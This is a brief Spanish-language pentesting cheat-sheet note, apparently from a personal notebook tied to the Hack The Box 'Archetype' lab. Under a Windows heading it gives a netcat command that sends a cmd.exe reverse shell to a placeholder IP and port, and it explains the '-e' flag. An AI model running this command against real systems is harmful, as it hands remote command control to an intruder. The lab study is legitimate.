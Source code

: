 
# Linux


# Windows

## nc64.exe

Utilizando el binario de netcat para windows x64 podemos mandarnos una reverse shell. Se utiliza en [[Archetype HTB]].

```powershell
.\nc64.exe -e cmd.exe <ip> <port>
```

Con el parámetro `-e` indicamos que queremos ejecutar un archivo al conectarnos, en este caso una cmd.